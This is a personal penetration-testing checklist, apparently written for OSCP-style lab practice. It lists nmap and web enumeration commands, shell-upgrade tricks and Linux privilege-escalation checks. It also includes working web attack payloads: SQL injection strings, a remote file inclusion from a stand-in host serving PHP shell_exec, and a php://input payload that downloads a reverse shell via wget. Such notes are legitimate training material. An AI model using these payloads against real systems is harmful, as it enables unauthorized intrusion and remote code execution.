 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
        - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
  - SAFE SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
  - ``` nmap -sU -T3 Ip-target -v ```
  - ```--source-port 100 ``` just to try evade, change to well-known port number 
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8 ``` (Many others check -H)
  - ``` dirb http://Ip-target -r ``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary 
  - Try nmap ``` -–script=http-enum.nse ``` (others available)
  - Check site in browser (http/https)
   - Resolve host name if necessary (etc/hosts)
   - Cookies
   - GET / POST
   - Check source
    - Directories
    - Comments
    - Script links
    - Form methods
    - Login forms
     - Versions/names/brands etc
      - Basic sql injection
        -``` ‘or 1=1```
        -```union```
- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    -```smbclient \\\\ip\\share```
   - try to connect to them to see if they are truly alive
   - Banner grabbing even if booted
   - ```nbtscan [ip-range]``` (https://highon.coffee/blog/nbtscan-cheat-sheet/)
   
- Port 22
  - Banner grabbing
    -```ssh root@192.192.192.192```
- Port 21
  - Banner grabbing
  -```ftp root@ip-target```
  - Try anonymous login
  - Set to BINARY for exe
  - PUT / DELETE 
  - Check for version numbers
  - use searchsploit / google for known vulns

<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
    - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
    -```>``` output to a file
    - ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
    - ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
    - ctrl+z backgrounds the shell on local box
      - then type: 
        - ```ssty raw -echo```
        - ```fg```
        - ```reset```
        - if size is an issue type:
          - ```stty size``` (returns current window size)
          - ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
  - if these don’t work try get kernel and distro info to look for exploits
  - ```uname -ar```
  - ```cat /etc/issue```
  - ```cat /etc/*-release```
  - ```cat /etc/lsb-release```
  - ```cat /etc/redhat-release```
  - Available programs/languages on host:
    - Perl,python etc
    - Nc,ncat,wget,curl

<H2>Windows</H2>

- Priv esc
 - Still busy gathering info... Have this so far:
 - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
 - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>
- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
    - Similar to local file inclusion while not hosted on the target
    - Rarer than LFI due to php.ini needs to configured for it 
    - Requres unsanitised parameter:
      - ```$theFile = $_REQUEST[“file”];```
      - ```Include($theFile . “.php”);```
    - Now in browser:
      - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
    - Badfile.txt:
      - ```<?php echo shell_exec("whoami");?>```

- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
  - Directory traversal
    - ```foo.php?file=../../../../../../../etc/passwd```
  - PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
    - http://127.0.0.1/fileincl/example1.php?page=expect://ls
  - PHP (POST request) ```php://input```
    - http://192.168.183.128/fileincl/example1.php?page= **php://input**
      - input can be: ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
      - In browser: http://192.192.192.192/shell.php
  - PHP ```php://filter```
    - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
    - Must decode the output from base64
  - /proc/self/environ (If you able to write there)
    - Manipulate ```User Agent``` in Burp
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
    - Uses phpinfo() to write temporary files together with fimap
      
- WAF
  wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
  -  ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips


